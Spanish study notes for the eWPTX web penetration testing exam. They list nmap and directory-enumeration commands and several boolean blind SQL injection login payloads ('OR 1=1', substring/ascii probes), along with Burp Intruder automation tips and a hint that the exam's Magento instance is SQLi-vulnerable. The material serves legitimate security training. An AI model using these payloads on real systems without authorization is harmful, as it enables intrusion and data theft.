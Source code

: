 # eWPTX
Tools
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)



## Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)
### OOB
Si se puede lelvar la info fuera del servidor
## 

## Estratégia
1. Iniciar por el CMS MAGENTO
